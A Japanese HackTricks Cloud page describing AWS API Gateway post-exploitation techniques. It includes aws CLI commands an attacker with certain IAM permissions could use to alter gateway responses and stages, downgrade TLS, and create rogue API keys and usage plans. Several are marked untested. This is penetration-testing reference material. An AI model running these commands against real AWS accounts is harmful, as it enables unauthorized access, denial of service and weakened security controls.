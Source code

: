 # AWS - API Gatewayのポストエクスプロイテーション

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし、あなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。これは、私たちの独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## API Gateway

詳細については、以下を参照してください：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 公開されていないAPIへのアクセス

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)で、サービスcom.amazonaws.us-east-1.execute-apiを使用してエンドポイントを作成し、アクセス可能なネットワーク（おそらくEC2マシン経由）でエンドポイントを公開し、すべての接続を許可するセキュリティグループを割り当てることができます。\
その後、EC2マシンからエンドポイントにアクセスし、以前公開されていなかったゲートウェイAPIを呼び出すことができます。

### 使用計画のDoS

**列挙**セクションでは、キーの**使用計画を取得**する方法を見ることができます。キーがあり、月間の使用回数がX回に**制限**されている場合、それを**使用するだけでDoSを引き起こす**ことができます。

**APIキー**は、**`x-api-key`**という名前の**HTTPヘッダ**に**含めるだけ**です。

### `apigateway:UpdateGatewayResponse`、`apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse`と`apigateway:CreateDeployment`の権限を持つ攻撃者は、既存のゲートウェイレスポンスを変更して、機密情報を漏洩させたり、悪意のあるスクリプトを実行したりするためのカスタムヘッダやレスポンステンプレートを含めることができます。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage`と`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gatewayステージを変更してトラフィックを別のステージにリダイレクトしたり、キャッシュ設定を変更してキャッシュされたデータに不正アクセスすることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: キャッシュされたデータへの不正アクセス、APIトラフィックの妨害または傍受。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse`と`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gateway REST APIメソッドのメソッドレスポンスを変更して、カスタムヘッダーやレスポンステンプレートを含め、機密情報を漏洩させたり、悪意のあるスクリプトを実行させる**ことができます。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**API Gateway REST APIの設定を変更してログの無効化や最小TLSバージョンの変更を行うことができ、APIのセキュリティを弱体化させる可能性があります**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: APIのセキュリティが弱体化し、認可されていないアクセスや機密情報の公開が可能になる可能性があります。

{% hint style="info" %}
テストが必要です
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan`、`apigateway:CreateUsagePlanKey`の権限を持つ攻撃者は、**新しいAPIキーを作成し、使用計画と関連付け、これらのキーを使用してAPIへの認可されていないアクセスを行うことができます**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在的な影響**: APIリソースへの不正アクセス、セキュリティコントロールのバイパス。

{% hint style="info" %}
テストが必要です
{% endhint %}

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
